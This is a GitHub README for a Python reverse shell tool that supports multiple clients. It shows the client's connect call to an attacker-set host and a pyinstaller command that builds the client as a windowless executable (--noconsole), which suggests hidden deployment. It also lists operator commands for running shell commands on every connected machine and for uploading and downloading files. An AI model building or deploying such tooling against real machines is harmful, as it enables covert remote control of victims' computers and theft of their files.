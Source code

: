 # Reverse-Shell-In-Python
A Multi Client And Singular Client Reverse Shell Made In Python

## Setup

1. Edit Host And Client


client.py
```Python
s.connect(("HOST", PORT))
```
server.py
```Python
sock.bind(("HOST", PORT))
```

2. Compile Client

```
pip install pyinstaller

pyinstaller --onefile --noconsole --icon=NONE client.py
```

## Multi Client Commands
```
-------------------Commands------------------------
list               Lists All The Connected Clients
connect <NUMBER>   Connect To a Client Shell
sendall <COMMAND>  Sends All Clients A Command
exit               Exits Server And Kills Clients
```

## Singular Client Commands
```
Commands
---------------------
All System Shell Commands
upload <FILE>
download <FILE>
clear
quit
```